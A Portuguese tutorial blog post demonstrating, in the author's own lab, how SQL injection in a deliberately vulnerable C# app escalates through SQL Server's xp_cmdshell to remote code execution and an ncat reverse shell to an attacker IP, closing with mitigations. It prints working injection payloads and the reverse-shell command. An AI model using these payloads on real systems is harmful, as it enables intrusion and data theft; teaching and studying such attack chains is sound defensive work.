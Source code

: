 ```yaml
---
title: Comprometendo um servidor através de um simples SQL Injection
date: 2022-11-18 17:48:14
tags: ["hacking", "SQLi"]
---
```


## Sumário
- [Introdução](#Introducao)
- [Premissas](#Premissas)
- [Passo 1: Aplicação vulnerável à SQLi](#Passo-1-Aplicacao-vulneravel-a-SQLi)
- [Passo 2: Funcionalidade CmdShell do SQL Server](#Passo-2-Funcionalidade-CmdShell-do-SQL-Server)
- [Passo 3: Juntando SQLi com o CmdShell](#Passo-3-Juntando-SQLi-com-o-CmdShell)
- [Passo 4: Comprometendo o servidor com Reverse Shell](#Passo-4-Comprometendo-o-servidor-com-Reverse-Shell)
- [Conclusão](#Conclusao)

## Introdução

O objetivo é demonstrar que nas condições certas, é possível escalar o impacto de um simples [SQLi (SQL Injection)](https://owasp.org/www-community/attacks/SQL_Injection) para um [RCE (Remote Code Execution)](https://www.geeksforgeeks.org/what-is-remote-code-execution-rce/), que por sua vez evoluir para um [Reverse Shell](https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/), entregando acesso completo à rede interna de uma empresa a partir do servidor do banco de dados.

Os impactos conhecidos do **SQLi** já são suficientemente desastrosos, porém como nada é tão ruim que não possa piorar, também é possível comprometer o servidor associado à aplicação.

## Premissas

- Aplicação vulnerável a SQLi, qualquer linguagem ou tecnologia;
- Banco de dados SQL Server;
- Usuário da aplicação conectado ao banco de dados com privilégios de alteração de configurações ***ou*** com a opção **xp_cmdshell** pré-habilitada;

## Passo 1: Aplicação vulnerável à SQLi

Nesta demonstração iniciei uma aplicação web simples,  vulnerável à SQLi. A função é uma busca pelo nome de uma pessoa em uma tabela de usuários.

> ![Sistema base](/imgs/sqli_to_rce/sistema_base.png)

Código vulnerável:
```csharp
var command = new SqlCommand("Select Nome from Usuarios where Nome = '" + input + "'", conn);

var result = new StringBuilder();

using (var reader = command.ExecuteReader())
{
	while (reader.Read())
	{
		result.AppendLine(reader[0].ToString());
	}
}
```

Para testar o conceito, podemos utilizar o *payload* básico ```' OR 1=1;--``` para demonstrar a vulnerabilidade:

> Inserindo o payload  e resultado obtido
![Sistema base com sqli](/imgs/sqli_to_rce/sistema_base_com_sqli.png)

## Passo 2: Funcionalidade CmdShell do SQL Server

A funcionalidade **xp_cmdshell** é uma opção avançada, e extremamente poderosa (portanto perigosa), que o SQL Server possui. A opção executa um comando de Windows através de SQL, retornando o resultado através de linhas. [Clique aqui](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16) para a documentação oficial.

Por exemplo, através da instância podemos executar comandos para listar os arquivos ```.exe``` do diretório:
```cmd
EXEC xp_cmdshell 'dir *.exe';
```
> ![exemplo cmdshell](/imgs/sqli_to_rce/shell_1.png)

Ou saber as informações da instância:
```
EXEC xp_cmdshell 'whoami';
```
> ![exemplo cmdshell](/imgs/sqli_to_rce/shell_2.png)

Estes mesmos comandos podem ser executados diretamente da aplicação que está conectada ao banco de dados.

Para que esta opção possa ser utilizada, é necessário ativar as configurações avançadas e também a opção *xp_cmdshell*, conforme abaixo:
```cmd
EXEC sp_configure 'show advanced options',1;RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE
```

Por padrão, estas opção estão com o valor ```0```, indicando a impossibilidade da execução direta. Porém, caso o usuário conectado ao banco de dados possua permissão para tal (o famoso **'sa'** *full access*), basta executar os comandos referenciados acima previamente, para ativação da funcionalidade.


## Passo 3: Juntando SQLi com o CmdShell

Agora que possuímos os elementos necessários, basta um pouco de criatividade e insistência para explorar os caminhos necessários para causar um grande impacto.

Partindo do princípio que o SQL Server não possui as opções avançadas ligadas, podemos então explorar o SQLi para habilitar as condições necessárias:

*Payload* executadas na aplicação:
```
> ';EXEC sp_configure 'show advanced options',1;RECONFIGURE--
> ';EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE--
```

A partir desse momento, já é possível executar qualquer comando diretamente no servidor em que se encontra o banco de dados, caracterizando o **RCE**.

Tomamos como exemplo a manipulação de uma arquivo que está na pasta *temp*:
> ![comando move](/imgs/sqli_to_rce/move_1.png)

Então, executando um simples comando **'move'** para provar o conceito, com o *payload* pela aplicação *web*
```
';EXEC xp_cmdshell 'move c:\temp\teste.txt c:\temp\teste2.txt'--
```
> ![comando move](/imgs/sqli_to_rce/move_2.png)

Se parássemos aqui, já teríamos consequências suficientes para interrupção de toda uma operação, considerando possibilidades como:
* Exclusão de arquivos
* Manipulação de informações
* Causa de indisponibilidade
* Quebra de confidencialidade e integridade das informações
* ... e por aí vai

## Passo 4: Comprometendo o servidor com Reverse Shell

Agora com o **RCE** confirmado, é possível evoluir para o *Reverse Shell*, onde através do servidor impactado entregaremos o acesso direto e completo à máquina do atacante, dispensando a aplicação como meio.

Para demonstração desta parte, configurei um servidor virtual com *Kali Linux*, simulando a máquina do atacante. Nesta máquina, ativado um *listener* para a porta ```3000``` através do *netcat*

```cmd
nc -nlp 3000 -v
```
> ![netcat no kali](/imgs/sqli_to_rce/kali_1.png)

Voltando à exploração RCE, basta prepararmos um *payload* para que o servidor da vítima se comunique com o servidor do atacante, entregando através do IP e o servidor pré-determinado, o *command* do Windows (cmd.exe).

Comando a ser executado (```192.168.101.125``` é o endereço IP do servidor do atacante):
```cmd
ncat 192.168.101.125 3000 -e c:\windows\system32\cmd.exe
```

Como o comando será executado no contexto do usuário do banco de dados, é preciso passar o caminho completo do acionamento do netcat:
```cmd
where ncat
> "C:\Program Files (x86)\Nmap\ncat.exe"
```

Então, podemos preparar o *payload* para enviar através da aplicação;
```
';EXEC xp_cmdshell '"C:\Program Files (x86)\Nmap\ncat.exe" 192.168.101.125 3000 -e c:\windows\system32\cmd.exe'--
```
> ![payload do reverse shell](/imgs/sqli_to_rce/payload_shell_cmd.png)

Se voltarmos para a visão da máquina do atacante, é possível verificar que a conexão foi realizada. A partir deste momento, é como se o atacante estivesse fisicamente no servidor da vítima executando qualquer comando que desejasse pela linha de comando do Windows.
> ![reverse shell concluído](/imgs/sqli_to_rce/kali_acesso_concedido.png)
> ![reverse shell concluído](/imgs/sqli_to_rce/kali_dir_completo.png)

## Conclusão
Com o comprometimento completo do servidor, a vítima fica *à mercê* do atacante com o tipo de estrago ou extorsão a ser realizado. Caso este servidor não esteja uma rede [DMZ](https://www.fortinet.com/br/resources/cyberglossary/what-is-dmz), a escalação pode prosseguir com navegação lateral pelos servidores e estações de uma organização, causando ainda mais estragos.

Algumas sugestões de possíveis impactos:
- Exclusão total dos arquivos e dados do servidor ou banco de dados
- Instalação de Ransonware's
- Mineração criptomoeda
- Nó para atividades criminal
- Extração e vazamento de dados
- Monitoramento silencioso

Não basta atentarmos que as aplicações não estejam vulneráveis à SQLi, para uma melhor eficiência nas mitigações de segurança, é preciso trabalhar para que o *attack chain* seja quebrado, ou seja, impedir um possível ataque evolua em vários pontos.

Isto quer dizer que qualquer um desses casos abaixo iriam mitigar a exploração e os impactos sofridos:

- Não utilização do usuário 'sa' ou com altos privilégios de alteração de configurações do banco de dados, como usuário que a aplicação se conecta.
- Isolamento do servidor do database do resto da estrutura - DMZ.
- Compartilhamento da instância do banco de dados com outras aplicações. O comprometimento pode se originar daquela antiga aplicação esquecida, que ninguém usa.

As recomendações não se limitam a esta pequena lista, mas servem para instigar que todos os processos e estruturas sejam pesadas para mitigar a evolução de uma vulnerabilidade encontrada na ponta.

O foco demonstrado aqui foi com o banco de dados *SQL Server*, porém podem existir funções equivalentes em outros *databases*, aqui não explorado.

